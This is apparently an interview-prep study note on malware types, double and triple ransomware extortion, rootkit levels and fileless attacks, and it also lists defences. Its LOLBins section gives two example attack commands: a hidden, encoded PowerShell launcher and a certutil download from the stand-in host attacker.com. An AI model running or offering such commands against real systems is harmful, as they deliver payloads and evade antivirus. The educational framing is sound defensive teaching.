

# Malware Taxonomy, Infection Vectors & Fileless In-Memory Threats

> **Domain:** Cybersecurity Fundamentals  
> **Sub-Domain:** Endpoint Security & Malware Analysis  
> **Interview Importance:** Very High / Standard Technical Round Triage Question  

---

## 1. Topic & Definitions

- **Malware (Malicious Software):** Any software, firmware, or code specifically designed to intentionally harm, disrupt, compromise, or gain unauthorized access to computer systems, networks, or endpoints.
- **The Core Distinction Axis:** Malware strains are classified primarily by **how they propagate** (replication mechanism) and **what malicious actions they execute** (payload).

---

## 2. Comprehensive Malware Taxonomy



---

### Detailed Analysis of Major Malware Categories

| Malware Category | Propagation & Activation | Malicious Payload / Behavior | Classic Historical Example |
| :--- | :--- | :--- | :--- |
| **Virus** | **Requires human action.** Injects malicious code into existing legitimate host executables (`.exe`, `.dll`, macro). | Infects other files on disk; destroys data or creates backdoors when host file is run. | Chernobyl (CIH), ILOVEYOU macro virus. |
| **Worm** | **Self-replicating & Autonomous.** Does NOT require human interaction or a host file. Exploits unpatched network vulnerabilities. | Rapidly scans network, replicates across subnets, exhausts bandwidth, drops payloads. | WannaCry (SMB EternalBlue), Conficker, SQL Slammer, Morris Worm. |
| **Trojan Horse** | Disguised as legitimate, desirable software (e.g. cracked game, pirated utility, PDF). | Delivers hidden malicious payload; frequently installs a **Remote Access Trojan (RAT)**. | Emotet, DarkComet RAT, Zeus Banking Trojan. |
| **Ransomware** | Delivered via phishing, exposed RDP, or exploit kits. | Encrypts victim files on disk using strong hybrid ciphers (AES-256 + RSA) and demands ransom. | WannaCry, Ryuk, LockBit, BlackCat. |
| **Spyware / Keylogger**| Secretly bundled with freeware or installed post-compromise. | Intercepts keyboard keystrokes, clipboard data, webcam, and browser cookies. | Agent Tesla, Pegasus Spyware. |
| **Rootkit** | Injected via vulnerable device drivers or firmware exploits. | **Stealth & Concealment:** Hooks OS API calls to hide processes, open network ports, and files from EDR and task managers. | Sony BMG Rootkit, Stuxnet, Necurs. |
| **Botnet Node** | Infection via worm or automated exploit. | Compromised host becomes a "Zombie" listening for commands from a centralized or P2P **Command and Control (C2)** server. | Mirai IoT Botnet, Necurs Botnet. |
| **Fileless Malware** | Injected directly into volatile RAM via memory exploits or LOLBins. | Leaves **zero executable binary files on disk**; executes entirely in RAM using legitimate system utilities. | Poweliks, Cobalt Strike in-memory reflective loaders. |

---

## 3. The Evolution of Modern Ransomware: Double & Triple Extortion

Ransomware has evolved from simple file-locking into multi-layered corporate extortion:

```text
+─────────────────────────────────────────────────────────────────────────────+
|                         THE 3 TIERS OF MODERN EXTORTION                     |
+─────────────────────────────────────────────────────────────────────────────+
| 1. SINGLE EXTORTION (File Locking):                                         |
|    • Encrypts local files and deletes Windows Volume Shadow Copies (VSS).   |
|    • Ransom demanded for decryption key. (Defeated by offline backups).    |
|─────────────────────────────────────────────────────────────────────────────|
| 2. DOUBLE EXTORTION (Data Exfiltration & Name-and-Shame):                   |
|    • Before encrypting, adversaries exfiltrate hundreds of gigabytes of     |
|      sensitive customer records, intellectual property, and emails.         |
|    • If the victim restores from backups and refuses to pay, attackers     |
|      threaten to publish the stolen data on public dark web leak sites!     |
|─────────────────────────────────────────────────────────────────────────────|
| 3. TRIPLE EXTORTION (Third-Party Harassment & DDoS):                        |
|    • Attackers launch volumetric DDoS attacks against the victim's website. |
|    • Attackers directly email/call the victim's customers and shareholders, |
|      urging them to pressure the CEO into paying the ransom.                |
+─────────────────────────────────────────────────────────────────────────────+
```

---

## 4. Rootkits: Ring 3 vs. Ring 0 vs. Bootkits

Rootkits are designed specifically to **maintain stealthy persistence**:

1. **User-Mode Rootkits (Ring 3):** Hooks user-space dynamic link libraries (`ntdll.dll` or `libc.so`). When an admin runs `ps` or `Taskmgr.exe`, the hook filters the returned list, hiding the malicious PID. Readily detected by modern EDR agents that inspect process memory.
2. **Kernel-Mode Rootkits (Ring 0):** Modifies kernel data structures (DKOM - Direct Kernel Object Manipulation) or hooks the kernel System Call Table. Has absolute system privilege. Can blind antivirus drivers and conceal files at the filesystem driver level.
3. **Bootkits / Firmware Rootkits:** Infects the Master Boot Record (MBR), Volume Boot Record (VBR), or UEFI/BIOS firmware. Executes **before the operating system kernel even boots**, bypassing all OS-level antivirus checks entirely. (Mitigated by **UEFI Secure Boot**).

---

## 5. Fileless Malware & Living-off-the-Land Binaries (LOLBins)

- **The Problem with Traditional Malware:** Dropping a `.exe` file to disk triggers signature scanning by antivirus software.
- **The Modern Tactic: LOLBins (Living-off-the-Land):**
  Attackers avoid compiling custom malware. Instead, they hijack legitimate, trusted system administration binaries pre-installed by Microsoft:
  - **`powershell.exe`:** Downloads and executes obfuscated Base64 shellcode directly into RAM:
    ```powershell
    powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Enc <Base64_Payload>
    ```
  - **`certutil.exe`:** A legitimate certificate utility abused to download remote malware files:
    ```cmd
    certutil.exe -urlcache -split -f http://attacker.com/payload.bin payload.bin
    ```
  - **`mshta.exe` / `regsvr32.exe`:** Executes remote VBScript or HTML applications without creating an executable on disk.
- **Defense:** Enforcing PowerShell Script Block Logging (Event ID 4104), Constrained Language Mode, and strict AppLocker / WDAC application allowlisting.

---

## 6. Interview Takeaway: What to Say Under Pressure

### 🎙️ 60-Second Elevator Pitch
> *"Malware is classified by propagation mechanism and malicious payload. Viruses attach to host executables and require user interaction, whereas Worms self-replicate autonomously across networks by exploiting unpatched services like SMB. Modern ransomware has evolved from simple file-locking into double extortion—where sensitive data is exfiltrated prior to encryption and leaked if ransoms are unpaid—and triple extortion involving DDoS attacks. For stealth, adversaries deploy Kernel-mode rootkits to hook operating system system calls, and Fileless Malware that executes entirely in RAM using Living-off-the-Land Binaries (LOLBins) like PowerShell and CertUtil to bypass traditional disk-based antivirus scans. Defending against modern malware requires behavioral EDR telemetry and UEFI Secure Boot."*

### ⚠️ Common Traps & Gotchas
- **Trap:** Confusing a Virus with a Worm.  
  *Correction:* A **Virus** requires human execution of an infected host file to spread. A **Worm** is completely autonomous; it propagates automatically across networks without human assistance (e.g. WannaCry scanning for port 445).
- **Trap:** Believing "Fileless" malware never touches the computer.  
  *Correction:* Fileless malware writes no executable files *to disk*, but it still executes in volatile memory (RAM) and often maintains persistence via the Windows Registry or WMI subscriptions.
